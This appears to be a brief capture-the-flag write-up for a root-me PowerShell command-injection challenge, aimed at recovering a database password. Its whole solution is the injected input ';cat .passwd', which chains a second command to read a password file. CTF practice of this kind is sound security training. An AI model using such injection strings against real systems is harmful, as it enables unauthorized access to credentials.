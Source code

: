 # Powershell: Command Injection

[root-me challenge: Powershell - Command Injection](https://www.root-me.org/en/Challenges/App-Script/Powershell-Command-Injection): Recover the database’s password.

----

```text
> ;cat .passwd
```
